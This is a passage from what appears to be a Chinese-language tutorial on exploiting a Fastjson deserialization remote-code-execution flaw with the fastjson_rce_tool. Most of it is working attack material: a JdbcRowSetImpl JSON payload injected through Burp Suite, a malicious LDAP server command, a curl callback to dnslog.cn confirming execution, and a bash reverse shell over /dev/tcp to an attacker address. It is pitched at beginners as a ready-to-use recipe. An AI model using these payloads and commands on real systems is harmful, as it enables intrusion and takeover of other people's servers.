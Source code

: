 ```
java -cp fastjson_tool.jar fastjson.HLDAPServer 192.168.112.146 8888 "curl 8067nw.dnslog.cn"
```

**0x01 结合 dnslog.cn 测试远程代码是否可执行**

1）生成 dnslog.cn 的子域名

```
{"e":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"f":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://192.168.112.146:8888/Object","autoCommit":true}}
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3icfiaC2TEFqM7T31ciavUJGUa94ibCXMMBK3kLfEd3ZQS1zC2Nf6co48PCcn305Kuib5IfHsBWhRibOpeA/640?wx_fmt=jpeg)

2）搭建 LDAP 服务器

```
java -cp fastjson_tool.jar fastjson.HLDAPServer 192.168.112.146 8888 "bash=/bin/bash -i  >& /dev/tcp/192.168.112.146/9001 0>&1"
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3icfiaC2TEFqM7T31ciavUJGUa2PBYCibIGeUPAfpweHzLII4PbTApt95dvnaqDEv4wPbgsZsHic88tfgw/640?wx_fmt=jpeg)

3）BP 改包

将上面提供的 payload 写入 POST 请求中

```
{"e":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"f":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://192.168.112.146:8888/Object","autoCommit":true}}
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3icfiaC2TEFqM7T31ciavUJGUaFCKQx6xib322sYJiatlu4ZatVaMficX8yRBc8VXAHTTM6rR2F2EsEKyicg/640?wx_fmt=jpeg)  

4）到 dnslog.cn 上查看靶机是否执行了 curl 命令

可以发现靶机成功执行了 curl 命令，说明存在 RCE 漏洞

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3icfiaC2TEFqM7T31ciavUJGUaI2JI0TODT5y6icLDJ7BFnA7fftzBibMzh2VVbZWatzURRdNVTia8Ylsjg/640?wx_fmt=jpeg)

**0x02 反弹 shell 及其他**

操作方法类似，就是将命令更改为反弹 shell 的命令

```
java -cp fastjson_tool.jar fastjson.HLDAPServer 192.168.112.146 8888 "bash=/bin/bash -i  >& /dev/tcp/192.168.112.146/9001 0>&1"
```

小结：这里的命令部分相当于 marshalsec 工具中的自己写的恶意类中的可执行命令部分，只是 fastjson_rce_tool 简化了操作，我们只要提供命令执行参数即可，适合小白~

更多的操作及命令可自行拓展或者去工具下载地址查看

五、总结
----

注意 JDK 的版本，基于不同方式的反序列化攻击有不同的限制，否则会使得攻击无效

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3icfiaC2TEFqM7T31ciavUJGUamuicnZ6IkjtwcHjAzjVSGicgShcHY4jEEic02FFzhgeSQrK1QKnjTpOZw/640?wx_fmt=jpeg)
